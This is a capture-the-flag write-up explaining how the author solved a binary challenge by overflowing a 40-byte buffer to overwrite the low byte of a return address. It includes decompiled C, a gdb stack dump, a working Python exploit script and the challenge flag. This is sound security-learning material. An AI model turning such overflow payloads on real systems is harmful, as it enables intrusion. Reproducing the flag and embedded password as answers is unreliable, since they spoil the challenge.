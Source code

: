 ## Skills involved: Buffer overflow (return address overwrite)

As some with virtual no binary experience, it's surprising that I solved ANY of the binary-related challenges.

This program can be reversed by [Ghidra](https://ghidra-sre.org). Here is the part we're interested in:

```c
void admin_panel(long param_1,long param_2,long param_3){
  int iVar1;
  char local_38 [40];
  long local_10;
  
  local_10 = 0;
  printf("[*] Safety mechanisms are enabled!\n[*] Values are set to: a = [%x], b = [%ld], c = [%ld] .\n[*] If you want to continue, disable the mechanism or login as admin.\n"
         ,param_1,param_2,param_3);
  while (((local_10 != 1 && (local_10 != 2)) && (local_10 != 3))) {
    printf(&DAT_004014e8);
    local_10 = read_num();
  }
  if (local_10 == 1) {
    printf("\n[*] Input: ");
  }
  else {
    if (local_10 != 2) {
      puts("\n[!] Exiting..\n");
                    /* WARNING: Subroutine does not return */
      exit(0x1b39);
    }
    printf("\n[*] Username: ");
  }
  read(0,local_38,0x39);
  if (((param_1 != 0xdeadbeef) || (param_2 != 0x1337c0de)) || (param_3 != 0x1337beef)) {
    iVar1 = strncmp("DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft",local_38,0x34);
    if (iVar1 != 0) {
      printf("\n%s[-] Authentication failed!\n",&DAT_00400c40);
      goto LAB_00400b38;
    }
  }
  printf("\n%s[+] Welcome admin! The secret message is: ",&DAT_00400c38);
  system("cat flag*");
LAB_00400b38:
  puts("\n[!] For security reasons, you are logged out..\n");
  return;
}
```
We're allowed to read 57 characters but the string can only store 40 characters. This smells like buffer overflow. 

I researched a lot on buffer overflow and while [this video](https://www.youtube.com/watch?v=V9lMxx3iFWU) helped a lot, it still doesn't click for me.

In the end using gdb, an executable debugging tool the visualization I needed. With some experimentation the stack structure can be shown (_ and ! denotes the space for password and menu option respectively):
```
0x7fffffffddc0:	0x00000000	0x00000000	0x00000003	0x00000000
0x7fffffffddd0:	0x00000002	0x00000000	0x00000001	0x00000000
0x7fffffffdde0:	0x________	0x________	0x________	0x________
0x7fffffffddf0:	0x________	0x________	0x________	0x________
0x7fffffffde00:	0x________	0x________	0x!!!!!!!!	0x00000000
0x7fffffffde10:	0xffffde40	0x00007fff	0x00400b94	0x00000000
```

With 57 characters we can overwrite the `94` part in `0x00400b94`, the return address of this function. Return address in a function tells the program which command to go to after completion.

<img width="637" alt="image" src="https://user-images.githubusercontent.com/26480299/169540786-601fbd0b-788a-4f7a-b4d9-22cb888abeb9.png">

We can go to 0x00400b01 with an appropriate payload (I used python to control the netcat connection):
```python
import nclib, string, time
nc = nclib.Netcat(( '**********', ***** ))
nc.recv_until('admin.\n')
payload = bytes("1", 'ascii')
#print(payload)
nc.send( payload ) 
response = nc.recv_until('Input: ')
payload = b"AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGG\x01"
nc.send( payload )
response = nc.recv_all()
print(response)
```

**Flag: HTB{n0_n33d_2_ch4ng3_m3ch5_wh3n_u_h4v3_fl0w_r3d1r3ct}**

Remark: I spent a long time on this one because of misreading 0x39 as 39.
